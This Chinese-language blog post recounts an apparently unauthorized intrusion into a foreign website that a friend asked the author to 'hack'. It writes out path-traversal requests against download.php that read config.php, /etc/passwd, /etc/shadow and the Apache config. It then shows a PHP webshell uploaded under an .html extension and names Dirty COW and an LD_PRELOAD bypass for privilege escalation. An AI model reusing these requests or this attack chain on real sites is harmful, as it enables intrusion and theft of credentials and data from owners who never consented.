 ```yaml
---
title: "记一次渗透之从后台到提权"
date: 2019-03-12T21:11:41+08:00
lastmod: 2019-03-12T21:11:41+08:00
draft: false
tags: ['pentest']
categories: ['pentest']
comment: true
---
```


某日朋友发来一个站让搞！搞搞搞！

<!--more-->

![](https://y4er.com/img/uploads/20190509168008.jpg)

国外站，翻译的我尴尬证都犯了。

![](https://y4er.com/img/uploads/20190509166186.jpg)

习惯性先发文章看看编辑器上传附件什么的。

![](https://y4er.com/img/uploads/20190509163882.jpg)

四处上传，首先尝试编辑器处上传图片，经验告诉我越low的编辑器越好拿shell。

![](https://y4er.com/img/uploads/20190509167958.jpg)

我错了，白名单+上传重命名，smarteditor编辑器，各种截断尝试，突破不了。

![](https://y4er.com/img/uploads/20190509161256.jpg)

![](https://y4er.com/img/uploads/20190509168630.jpg)

这编辑器无敌。随后发现另外三处均是调用此编辑器上传，暂时换思路。

在已经发布的文章中发现绝对路径

```
http://xxx.com/download.php?dnfile=20190228_012000_0978115.jpg&file=/home/xxx/webapp/../public_html/upload_dir/board/16887879979878fa23f2.jpg
```

![](https://y4er.com/img/uploads/20190509169487.jpg)

测试后发现`public_html`为根目录，决定挖挖注入，万一是root没降权就舒服了。

`http://www.xxx.com/?module=xx&action=xx&iPopNo=1&seq_cd=1`

经过手动加sqlmap测试，发现后台存在时间盲注，由于国外站点访问不稳定的原因，遂放弃，在后期getshell之后发现用户不是`root`并且权限死得很，为之庆幸并没有在此处浪费时间。

到此处思路死了。编辑器getshell无解，sql注入getshell卒。还有什么思路呢？

我们之前爆出绝对路径的url访问后发现会自动下载

```
http://xxx.com/download.php?dnfile=20190228_012000_0978115.jpg&file=/home/xxx/webapp/../public_html/upload_dir/board/16887879979878fa23f2.jpg
```

存在任意文件下载吗？先构造一下尝试

```
http://xxx.com/download.php?dnfile=download.php&file=/home/xxx/webapp/../public_html/download.php
```

![](https://y4er.com/img/uploads/20190509166054.jpg)

bingo！

![](https://y4er.com/img/uploads/20190509167259.jpg)

存在任意文件下载，我们找下数据库配置文件

```
http://xxx.com/download.php?dnfile=config.php&file=/home/xxx/webapp/../public_html/index.php
```

index.php一般会引入数据库的config.php

![](https://y4er.com/img/uploads/20190509169463.jpg)

重新构造

```
http://www.xxx.com/download.php?dnfile=config.php&file=/home/xxx/webapp/../public_html/../webapp/config.php
```

![](https://y4er.com/img/uploads/20190509168321.jpg)

数据库配置get！后发现没开3306外链，思路断掉。

在这个时候我重新回头看这个任意文件下载，读一下敏感文件试试？

```
my.cnf
```

![](https://y4er.com/img/uploads/20190509162699.jpg)

password被注释掉，无用。

```bash
/etc/passwd
/etc/shadow
/etc/profile
```

![](https://y4er.com/img/uploads/20190509167603.jpg)

![](https://y4er.com/img/uploads/20190509164450.jpg)

没发现有可用信息。

下载apache配置文件

```
http://www.xxx.com/download.php?dnfile=1.php&file=/usr/local/apache/conf/httpd.conf
```

![](https://y4er.com/img/uploads/20190509160563.jpg)

惊了！html可以被当作php文件！

于是我去编辑器中尝试上传这几种文件，仍以失败告终。

但是附件的我们还没试！

![](https://y4er.com/img/uploads/20190509162424.jpg)

抓包改后缀，返回文章查看路径

```
http://www.xxx.com/download.php?dnfile=php.jpg.html&file=/home/xxx/webapp/../public_html/upload_dir/board/13303476456487546a3cd.html
```

拼接

```
http://www.xxx.com/upload_dir/board/13303476456487546a3cd.html
```

![](https://y4er.com/img/uploads/20190509167159.jpg)

getshell!

后面的就不说了，提权就是脏牛+[bypass disablefunc](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)一条龙，没啥亮点。

![](https://y4er.com/img/uploads/20190509168941.jpg)

本章结束，寡人欲休。